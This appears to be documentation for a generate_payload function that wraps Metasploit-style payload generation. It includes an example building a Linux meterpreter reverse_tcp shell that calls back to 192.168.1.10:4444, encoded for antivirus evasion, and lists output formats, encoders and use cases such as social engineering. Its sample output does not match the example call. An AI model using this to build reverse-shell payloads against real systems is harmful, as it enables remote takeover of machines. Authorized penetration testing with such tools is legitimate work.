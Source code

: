 ```python
generate_payload(
    payload_type="linux/x86/meterpreter/reverse_tcp",
    format_type="elf",
    options={"LHOST": "192.168.1.10", "LPORT": 4444},
    encoder="x86/shikata_ga_nai",
    iterations=5
)
```

**Sample Output**:
```json
{
  "status": "success",
  "message": "Payload 'windows/meterpreter/reverse_tcp' generated successfully and saved.",
  "payload_size": 73802,
  "format": "exe",
  "server_save_path": "/home/user/payloads/payload_windows_meterpreter_reverse_tcp_20251018_135045.exe"
}
```

**Supported Formats**:
- `exe` - Windows executable
- `elf` - Linux executable
- `macho` - macOS executable
- `dll` - Windows DLL
- `vbs` - VBScript
- `python` - Python script
- `ruby` - Ruby script
- `powershell` - PowerShell script
- `raw` - Raw shellcode
- `c` - C language array
- `war` - Java WAR file
- `jar` - Java JAR file

**Common Encoders**:
- `x86/shikata_ga_nai` - Polymorphic XOR encoder
- `x64/xor_dynamic` - 64-bit XOR encoder
- `cmd/powershell_base64` - PowerShell base64 encoder
- `generic/none` - No encoding

**Use Cases**:
- Creating payloads for social engineering
- Generating shellcode for exploit development
- Testing antivirus evasion
- Preparing payloads for physical access scenarios

**Save Location**:
- Default: `~/payloads/` or `$PAYLOAD_SAVE_DIR`
- Configurable via environment variable
- Automatic timestamp in filename

**Security Considerations**:
- Generated payloads will trigger antivirus
- Use encoding/obfuscation for evasion
- Only use in authorized testing
- Handle files securely

---